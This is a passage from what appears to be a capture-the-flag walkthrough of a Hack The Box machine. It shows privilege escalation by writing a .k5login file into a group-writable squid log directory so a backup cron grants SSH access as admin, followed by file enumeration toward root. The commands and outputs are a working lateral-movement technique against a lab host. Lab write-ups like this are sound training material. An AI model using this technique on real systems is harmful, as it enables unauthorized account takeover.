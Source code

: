 #### Exploit

I can put that `.k5login` file in place abusing the backup script if I
can write to `/var/log/squid`. It looks like only admin and members of
the squid group can write:



    [j.nakazawa@srv01 ~]$ ls -ld /var/log/squid/
    drwx-wx---. 2 admin squid 41 Dec 24 06:36 /var/log/squid/



j.nakazawa is in the squid group:



    [j.nakazawa@srv01 ~]$ id
    uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



I'll write a simple `.k5login` file:



    [j.nakazawa@srv01 squid]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login



Once the next cron triggers, I can auth as admin using SSH:



    oxdf@parrot$ ssh admin@10.10.10.224
    Activate the web console with: systemctl enable --now cockpit.socket

    Last login: Thu Jun 17 14:15:01 2021
    [admin@srv01 ~]$ 



## Shell as root

### Enumeration

I'll use `find` to identify files in owned by the admin user:



    [admin@srv01 ~]$ find / -user admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
    /var/spool/mail/admin
    /home/admin/squid_logs.tar.gz.2021-06-10-012801



I'm using `grep` to get rid of things starting with `/sys`, `/run`, and
`/proc` because those aren't interesting. The logs archive is created by
the cron (there must be something clearing those periodically). The mail
file could be interesting, but it's zero bytes:



    [admin@srv01 ~]$ ls -l /var/spool/mail/admin
    -rw-rw----. 1 admin mail 0 Dec  9  2020 /var/spool/mail/admin
